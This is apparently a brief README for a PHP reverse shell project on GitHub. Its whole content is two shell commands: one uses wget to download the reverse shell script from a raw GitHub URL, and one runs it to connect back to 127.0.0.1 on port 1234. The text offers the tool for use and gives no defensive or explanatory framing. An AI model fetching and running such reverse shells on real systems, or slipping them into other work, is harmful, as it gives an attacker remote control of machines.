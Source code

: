 # php-reverse-shell

```shell
wget -O php-smart-reverse-shell.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/php-smart-reverse-shell.php
php ./php-smart-reverse-shell.php 127.0.0.1 1234
```
